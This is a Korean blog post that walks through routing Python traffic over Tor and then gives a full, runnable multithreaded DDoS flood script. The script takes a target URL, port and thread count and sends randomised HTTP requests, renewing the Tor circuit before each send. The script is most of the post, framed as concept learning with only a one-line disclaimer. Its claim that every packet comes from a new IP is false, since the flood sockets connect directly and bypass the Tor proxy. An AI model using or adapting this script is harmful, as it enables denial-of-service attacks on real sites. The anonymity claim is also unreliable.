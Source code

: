 ```yaml
---
layout: single
title:  "tor 활용해서 ip 숨기고 디도스 날리기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```

# IP를 숨기고 디도스 날려보자 
앞선 방법들로 내가 어떤 기기에서 날리는지 모르게 하더라도, IP가 들켜버리니 말장 도루묵이다.  
따라서, tor 라는 내 IP를 숨겨주는 브라우저를 활용해 디도슬르 날리는 것으로 내 IP를 숨길 수 있다.  
이는 토어 네트워크를 이용하여 파이썬 코드의 모든 요청을 라우팅하는 것으로 할 수 있다.   
이를 위해 `stem` 라이브러리를 사용하여 파이썬 코드에서 토어 네트워크를 제어하고, `requests` 라이브러리를 사용하여 HTTP 요청을 보낼 수 있다.  


1. **토어 설치**:
   - [https://www.torproject.org/download](https://www.torproject.org/download/)
   위에 저거 다운 받자

2. **Tor 서비스 시작**:
   - 토어 브라우저한번 실행해 보자. 속도가 다른 브라우져보다 느릴텐데, 이는 많은 우회 과정을 거치기 때문이다.  

3. **stem 및 requests 라이브러리 설치**:
   - 파이썬 코드에서 Tor를 제어하기 위해 `stem` 라이브러리와 HTTP 요청을 보내기 위해 `requests` 라이브러리를 설치하자.  
   ```bash
   pip install stem requests
   ```  

4. **Tor를 통한 HTTP 요청 설정**:
   - 다음은 토어 네트워크를 통해 IP를 숨기고 HTTP 요청을 보내는 예제 코드이다:  
   ```python
   import requests
   from stem import Signal
   from stem.control import Controller

   # Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
   def renew_tor_ip():
       with Controller.from_port(port=9051) as controller:
           controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
           controller.signal(Signal.NEWNYM)

   # Tor를 사용하여 HTTP 요청을 보내는 함수
   def get(url):
       session = requests.Session()
       session.proxies = {
           'http': 'socks5h://127.0.0.1:9050',
           'https': 'socks5h://127.0.0.1:9050'
       }
       response = session.get(url)
       return response

   # Tor IP 갱신
   renew_tor_ip()

   # 예제 HTTP 요청
   url = 'http://httpbin.org/ip'
   response = get(url)
   print(response.text)
   ```

### 설명
1. **Tor 서비스 시작**:
   - Tor 브라우저를 실행하거나, Tor 서비스만 실행합니다. 서비스만 실행하려면 `tor` 명령을 사용할 수 있습니다.
2. **`stem` 라이브러리를 사용하여 Tor 회로 갱신**:
   - `stem` 라이브러리를 사용하여 새로운 Tor 회로를 요청하고 IP를 갱신합니다.
   - Tor의 제어 포트에 연결하여 새로운 회로를 생성하도록 신호를 보냅니다.
3. **`requests` 라이브러리를 사용하여 HTTP 요청**:
   - `requests` 라이브러리의 프록시 설정을 통해 모든 HTTP 요청을 Tor 네트워크를 통해 라우팅합니다.
   - `socks5h://127.0.0.1:9050`는 로컬에서 실행 중인 Tor 프록시 서버의 주소입니다.

위 코드로 Tor 네트워크를 통해 HTTP 요청을 보내고 응답을 받을 수 있다.  
필요한 경우 `renew_tor_ip` 함수를 호출하여 IP를 갱신할 수 도 있다.  
Tor 제어 포트에 대한 접근 권한이 필요하며, 이를 위해 `torrc` 파일에서 `ControlPort`와 `HashedControlPassword` 설정을 확인해야 한다.  

추가적으로, Tor 설정 파일 (`torrc`)에서 제어 포트를 설정하고 비밀번호를 설정해야 한다:  
```
ControlPort 9051
HashedControlPassword your_hashed_password
```

이렇게 하면 파이썬 코드를 Tor 네트워크를 통해 실행하고 IP를 숨길 수 있다.  
위와 같은 방식을 디도스에 적용해 보자.  
```python
import re
import os
import sys
import time
import string
import signal
import http.client
import urllib.parse
import requests
from stem import Signal
from stem.control import Controller
from random import choice, randint
from socket import *
from threading import Thread
from argparse import ArgumentParser, RawTextHelpFormatter

version = '3.1'

# 사용자 입력 처리
def get_args():
    parser = ArgumentParser(formatter_class=RawTextHelpFormatter)
    parser.add_argument("-u", "--url", required=True, help="공격할 URL을 입력하십시오.")
    parser.add_argument("-p", "--port", default=80, type=int, help="공격할 포트 번호 (기본값: 80)")
    parser.add_argument("-t", "--threads", default=100, type=int, help="스레드 수 (기본값: 100)")
    parser.add_argument("-s", "--sleep", default=0, type=float, help="스레드 간 대기 시간 (초, 기본값: 0)")
    return parser.parse_args()

# Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
def renew_tor_ip():
    with Controller.from_port(port=9051) as controller:
        controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
        controller.signal(Signal.NEWNYM)

# Tor를 사용하여 HTTP 요청을 보내는 함수
def get(url):
    session = requests.Session()
    session.proxies = {
        'http': 'socks5h://127.0.0.1:9050',
        'https': 'socks5h://127.0.0.1:9050'
    }
    response = session.get(url)
    return response

# 패킷 전송 방식 고도화 클래스
class AdvancedPyslow:
    def __init__(self, tgt, port, threads, sleep):
        self.tgt = tgt
        self.port = port
        self.threads = threads
        self.sleep = sleep
        self.method = ['GET', 'POST', 'HEAD', 'PUT', 'DELETE']  # 다양한 HTTP 메소드
        self.user_agents = self.load_user_agents()  # User-Agent 목록 불러오기

    def load_user_agents(self):
        try:
            with open("./ua.txt", "r") as fp:
                return re.findall(r"(.+)\n", fp.read())
        except FileNotFoundError:
            print('[-] \'ua.txt\' 파일을 찾을 수 없습니다.')
            return []

    # 패킷 생성 함수
    def create_packet(self):
        method = choice(self.method)
        path = '/' + str(randint(1, 999999999))
        user_agent = choice(self.user_agents)
        return f"{method} {path} HTTP/1.1\r\nHost: {self.tgt}\r\nUser-Agent: {user_agent}\r\n\r\n"

    # 패킷 전송 함수
    def send_packet(self):
        try:
            # Tor IP 갱신
            renew_tor_ip()
            # 새로운 Tor IP를 통해 요청 전송
            with socket(AF_INET, SOCK_STREAM) as sock:
                sock.connect((self.tgt, self.port))
                packet = self.create_packet()
                sock.sendall(packet.encode())
                print(f"[+] 패킷 전송: {packet.strip()}")
        except Exception as e:
            print(f"[-] 패킷 전송 실패: {e}")

    # 스레드 실행 함수
    def run(self):
        threads = []
        for _ in range(self.threads):
            t = Thread(target=self.send_packet)
            t.start()
            threads.append(t)
            time.sleep(self.sleep)  # 스레드 간 대기 시간

        for t in threads:
            t.join()

if __name__ == "__main__":
    signal.signal(signal.SIGINT, signal.SIG_DFL)  # Ctrl+C 시 기본 시그널 처리
    args = get_args()
    target_ip = gethostbyname(args.url)  # 도메인에서 IP 주소 얻기
    print(f"[+] 공격 대상: {args.url} ({target_ip})")
    
    # 패킷 전송 고도화 클래스 인스턴스 생성 및 실행
    attack = AdvancedPyslow(target_ip, args.port, args.threads, args.sleep)
    attack.run()

```

위와 같은 방법으로, 패킷을 보낼 때 마다 다른 IP에서 날리는 것으로 만들 수 있다.  
이건 개념 이해 목적이므로, 절대 악의성을 가지고 남을 공격하는데 사용하지 말자.  